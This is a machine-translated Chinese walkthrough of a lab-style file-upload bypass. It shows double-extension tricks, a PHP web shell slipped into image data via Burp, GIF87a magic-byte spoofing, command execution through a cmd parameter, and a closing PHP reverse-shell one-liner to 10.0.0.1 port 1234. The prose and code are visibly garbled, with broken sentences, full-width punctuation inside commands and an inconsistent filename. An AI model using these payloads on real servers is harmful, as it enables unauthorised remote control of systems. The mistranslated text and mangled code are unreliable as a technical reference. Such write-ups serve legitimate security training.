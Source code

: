 ![](img/161d0dfcd714c9a3e67fb4d193cdd375.png)

让我们尝试一些文件上传旁路！。我尝试了许多方法，其中一个是用. png.php 扩展名保存反向 shell，欺骗 web 服务器，使其认为这是一个 png(图像)文件，但随后以 php 执行，因为它以。服务器端编程语言（Professional Hypertext Preprocessor 的缩写）

![](img/51b34a62ce39cf682d42872af9f30e98.png)

额外提示:如果你阅读 upload.php 文件的内容，你可以看到哪些扩展名是允许的。

![](img/687302551979414e5e88141ed22792aa.png)

不管怎样，让我们截取 burp 中的请求，并将请求发送给中继器。在请求的主体中，您将看到一些 grabage 值，这是图像的数据。我们不会删除它，因为它欺骗目标认为我们实际上是在上传图像。现在转到最后一行，添加一段 php 代码。

**<？php 系统($ _ GET[' cmd '])；？>**

![](img/737083d972f1635f1808e19f83520dbc.png)

您可以看到我们的文件已成功上传

![](img/bb82495f2833825f41ba0baedddcf231.png)

除此之外，确保用扩展名. png.php 保存文件名，如您在第 15 行看到的。这将作为 php 执行我们的文件。

![](img/5e419cd23ad46ce450e402daec5fbe89.png)

见第 15 行 filename=poison.php.jpg

让我们访问 photos.php，右键单击我们的图像，并在一个新的标签中打开它

![](img/61c27b04963661e60ebd280fe5835709.png)

我们能够看到图像中的数据。这些是垃圾值

![](img/6af5d8dc9346b9692c311f9193e0b633.png)

额外提示:我们本可以避免这些垃圾。我们可以不在 php 代码前保存图像数据，而是直接放入任何像 GIF87a 这样的神奇字节，让目标误以为我们在上传 GIF 文件。我会给你看一个我的意思的图像

![](img/aa0304cb39e1851bad76d5ddb1f0a335.png)

GIF87a 是 GIF 的神奇字节。幻字节是帮助系统识别文件类型的字节。只要谷歌 gif 的魔法字节

在 url 中，我们使用？cmd=whoami 这将运行 whoami 命令

![](img/bccf03dd65a6facc965b8b0eaf63012c.png)

现在向下滚动，您会看到 apache，它以蓝色突出显示。所以我们是 apache 用户。

![](img/90d82375215e048e4c764227bdfe2b71.png)

让我们把 whoami 命令替换成更恶意的东西，比如 php 反向 shell

![](img/5019ecc41bc2f53afbb778e875c3c7b2.png)

**PHP-r ' $ sock = fsockopen(" 10 . 0 . 0 . 1 "，1234)；exec("/bin/sh-I<&3>&3 2>&3 ")；'**
